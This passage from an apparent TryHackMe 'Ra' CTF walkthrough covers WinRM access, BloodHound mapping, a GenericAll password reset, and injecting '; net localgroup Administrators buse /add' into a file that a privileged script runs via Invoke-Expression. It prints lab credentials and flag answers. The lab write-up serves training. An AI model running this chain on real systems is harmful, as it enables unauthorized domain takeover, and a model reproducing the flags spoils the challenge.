## Phase 7 — WinRM Foothold & Flag 2

Using Evil-WinRM:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ evil-winrm -i 10.112.176.170 -u 'buse' -p 'uzunLM+3131'

*Evil-WinRM* PS C:\Users\buse\Desktop> ls

    Directory: C:\Users\buse\Desktop

Mode    LastWriteTime    Length Name
----    -------------    ------ ----
d-----  5/7/2020  3:00AM        Also stuff
d-----  5/7/2020  2:58AM        Stuff
-a----  5/2/2020 11:53AM     45 Flag 2.txt
-a----  5/1/2020  8:33AM     37 Notes.txt
```

**Flag 2:** `THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}`

Now, mostly certain that Flag 3 is on the **Administrator desktop**, we need to find a way to privesc to `administrator` or `NT AUTHORITY\SYSTEM`.

These folders on Buse's Desktop are **rabbit holes** by the way, do not waste time connecting the dots or trying **steganography** on the images inside them. Like I did (ㆆ \_ ㆆ). Moving on.

### Further Enumeration — An Unusual Scripts Folder

```powershell
*Evil-WinRM* PS C:\> ls

    Directory: C:\

d----- badr
d----- inetpub
d----- PerfLogs
d-r--- Program Files
d----- Program Files (x86)
d----- scripts
d----- Shared
d-r--- Users
d----- Windows

*Evil-WinRM* PS C:\Scripts> ls

    Directory: C:\Scripts

Mode    LastWriteTime    Length Name
----    -------------    ------ ----
-a----  5/3/2020  5:53AM   4119 checkservers.ps1
-a----  4/13/2026  1:55PM    31 log.txt

*Evil-WinRM* PS C:\Scripts> type checkservers.ps1

$OutageHosts = $Null
$EmailTimeOut = 30
$SleepTimeOut = 45
$MaxOutageCount = 10
$notificationto = "brittanycr@windcorp.thm"
$notificationfrom = "admin@windcorp.thm"
$smtpserver = "relay.windcorp.thm"

Do{
  get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
  ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p
  }
  ...
} While ($true)
etc...
```

The script acts like a **Windows Scheduled Task**. Here is what it does:

1. It reads a file at `C:\Users\brittanycr\hosts.txt`.
2. It iterates through each line.
3. **The flaw:** It takes each line and drops it raw into a string `$p`, which is then executed using `Invoke-Expression`.

This script is **probably** running with `admin` or `NT AUTHORITY\SYSTEM` privileges to execute the commands in `brittanycr`'s `hosts.txt`. We can abuse it by** injecting a payload** into that file.

But how can we do that? The file is owned by `brittanycr`, not by `buse`.

We use **BloodHound** to map the domain and see what permissions we actually have over `brittanycr`.

---

## Phase 8 — BloodHound + GenericAll → Domain Admin

### Gathering Domain Data with bloodhound-python

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ bloodhound-python -u 'buse' -p 'uzunLM+3131' -d windcorp.thm -ns 10.112.176.170 -c All

INFO: Found AD domain: windcorp.thm
INFO: Found 4762 users
INFO: Found 62 groups
INFO: Found 2 gpos
INFO: Found 6 ous
INFO: Done in 00M 26S
```

Start neo4j:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ sudo neo4j start
```

Open BloodHound:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ /opt/BloodHound-linux-x64/BloodHound --no-sandbox
```

Upload the data, mark `buse` as **owned**, and look for the **Shortest Path to `brittanycr`** from owned principals.



We find that we have **GenericAll** permission over `brittanycr` — which means basically full control of that user object. We can force change her **password**.



### Force Password Reset via GenericAll



```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ net rpc password "brittanycr" "P@ssw0rd123" -U "windcorp.thm"/"buse"%"uzunLM+3131" -S "10.112.176.170"
```

Now we **pwned** `brittanycr` we can access and modify the `hosts.txt` content on the `Users` share.

### Injecting the Payload

We first create the payload.
Note: don't forget the `;` to start the new payload.

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ echo "; net localgroup Administrators buse /add" > hosts.txt
```

Then upload it:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ smbclient //10.112.176.170/Users -U brittanycr%P@ssw0rd123

smb: \> cd brittanycr
smb: \brittanycr\> put hosts.txt
putting file hosts.txt as \brittanycr\hosts.txt (0.4 kB/s)
```

Now as a consequence if the payload loads with high privileges, `buse` becomes a member of the **local Administrators group**.

### Check

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'buse' -p 'uzunLM+3131'
SMB  10.112.176.170  445  FIRE  [+] windcorp.thm\buse:uzunLM+3131 (Pwn3d!)
```

`Pwn3d!` — domain admin confirmed.

---

## Phase 9 — Grabbing the Final Flag

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ evil-winrm -i 10.112.176.170 -u 'buse' -p 'uzunLM+3131'

*Evil-WinRM* PS C:\Users\buse\Documents> cd C://Users/Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode    LastWriteTime    Length Name
----    -------------    ------ ----
-a----  5/7/2020  1:22AM     47 Flag3.txt
```

**Flag 3:** `THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}`

---

## Attack Chain Summary

```
[Nmap Scan]
    |
    |-- Openfire XMPP on 5222 / 7070 / 9090 identified
    |
[Website OSINT — Ctrl+U]
    |
    |-- XMPP JIDs leaked in source -> domain username list
    |-- Photo filename lilyleAndSparky.jpg -> pet name for password reset
    |
[Password Reset — fire.windcorp.thm/reset.asp]
    |
    |-- lilyle + Sparky -> ChangeMe#1234
    |
[SMB Enumeration as lilyle]
    |
    |-- Shared share -> Flag 1 + Spark installer packages
    |
[CVE-2020-12772 — Spark img tag coerced auth]
    |
    |--  sent to Buse in chat
    |-- NetNTLMv2 captured by Responder
    |-- Cracked with John -> uzunLM+3131
    |
[WinRM as buse]
    |
    |-- Flag 2
    |-- C:\Scripts\checkservers.ps1 discovered (Invoke-Expression sink, reads brittanycr\hosts.txt)
    |
[BloodHound — buse has GenericAll over brittanycr]
    |
    |-- Force password reset on brittanycr
    |-- Upload malicious hosts.txt via SMB
    |
[Scheduled Task executes -> buse added to Administrators]
    |
[Evil-WinRM as buse (Admin) -> Administrator\Desktop\Flag3.txt]
```

---

## Closing Thoughts

In my journey for the **eCPPT** and **CRTP** prep, I found this room very helpful and rich. It covers a realistic multi-stage attack chain that does not hand you anything — web OSINT, XMPP protocol abuse, Active Directory permissions exploitation, and scheduled task injection all chained together. That kind of cross-domain thinking is exactly what those certifications test, and what real engagements look like.

As I said before, I did not just put a list of successful commands to pwn this box. I shared my thinking methodology as I am learning.
I hope you found it helpful.

Thanks for reading!

---

**Tags:** `TryHackMe` `Active Directory` `Red Team` `Openfire` `XMPP` `NetNTLM` `Responder` `BloodHound` `GenericAll` `Invoke-Expression` `eCPPT` `CRTOP`
